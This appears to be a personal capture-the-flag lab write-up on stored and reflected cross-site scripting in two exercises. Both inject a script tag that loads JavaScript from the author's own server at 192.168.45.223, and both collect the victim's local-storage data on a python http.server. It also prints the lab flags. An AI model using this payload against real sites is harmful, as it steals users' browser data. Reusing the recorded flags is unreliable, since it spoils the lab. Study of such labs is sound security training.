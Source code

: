 ##### Labs
###### 1 
![[Pasted image 20240802095228.png]]
Payload to test against own kali machine 1st to ensure worked
```bash
<script src="http://192.168.45.223:80/xss3.js"></script>
```
Placed the payload in the `name=` variable and got translated to `URL-Encoding`
![[Pasted image 20240802093900.png]]
Can see that it worked
![[Pasted image 20240802094024.png]]
Rendering from the victim
![[Pasted image 20240802094211.png]]
This renders the flag
![[Pasted image 20240802094515.png]]
use `URL-Decoder`
```bash
data=%7B%22FLAG%22%3A%22OS%7Bc5d0e39f1077197d81f889bd22c09f42%7D%22%7D
```
![[Pasted image 20240802095028.png]]
```
OS{c5d0e39f1077197d81f889bd22c09f42}
```
###### 2
![[Pasted image 20240802103443.png]]

Start on this webpage and edit `type=number` to `type=text` with the `Edit as HTML` function
![[Pasted image 20240802095754.png]]
Enter the `script` into the `guest` field and hit enter
```bash
<script src="http://192.168.45.223:80/xss3.js"></script>
```
If the guest field is empty, that means it worked
![[Pasted image 20240802100421.png]]
when looking at the `python3 http.server` we can see that it got results
![[Pasted image 20240802100516.png]]
Now set `Data in Local Storage` - hit `render`
![[Pasted image 20240802101635.png]]
Check `python3 -m http.server` - profit
![[Pasted image 20240802102739.png]]
Decodethe `URL-Encoding`
```
%7B%22FLAG%22%3A%22OS%7Be5eaa331805d532c12a0477b4d8d9eea%7D%22%7D
```
![[Pasted image 20240802103352.png]]
```bash
OS{e5eaa331805d532c12a0477b4d8d9eea}
```
